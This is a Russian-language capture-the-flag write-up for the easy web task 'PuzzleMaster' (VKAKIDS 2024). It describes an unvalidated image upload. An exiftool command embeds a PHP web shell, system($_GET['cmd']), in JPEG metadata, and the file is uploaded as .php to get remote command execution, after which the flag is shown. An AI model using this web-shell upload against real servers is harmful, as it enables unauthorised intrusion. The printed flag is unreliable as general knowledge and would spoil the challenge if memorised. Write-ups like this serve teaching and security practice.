

## Собери пазл и загрузи секретное изображение!


| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKAKIDS 2024 | PuzzleMaster | Web | easy |

  
### Описание


> Автор: [Timur219]
>
Погрузитесь в увлекательный процесс сборки пазла! Выберите картинку, соберите её до последнего элемента и сохраните результат на сервере. Однако будьте внимательны: всё может быть не так просто, как кажется. Возможно, сервер окажется не готов к некоторым… сюрпризам.


### Решение
На сайте реализована функциональность загрузки изображений для сборки пазлов. Пользователи могут загружать свои изображения через форму, и они обрабатываются сервером для создания интерактивного пазла. При анализе функционала загрузки файлов выявлено, что сервер не проводит строгую валидацию загружаемых файлов, что может привести к уязвимости загрузки файлов (File Upload Vulnerability). 

Создим файл PHP/JPG, который по сути является обычным изображением, но содержит полезную нагрузку PHP в своих метаданных.

Это можно сделать с помощью exiftool:
```
exiftool -Comment="<?php system($_GET["cmd"]); ?>" your_image.jpg -o payload_file.png
```
Как только файл будет создан, загрузим его на сервер, изменив filename на payload_file.php:


Используя загруженный файл, убедимся, что payload успешно выполняется. Это подтверждает получение удалённого доступа к серверу через веб-шелл:
 

Обнаруживаем файл flag и просматриваем его содержимое:


### Флаг

```
vka{15p1zzle_master_2024_super_challenge}
```


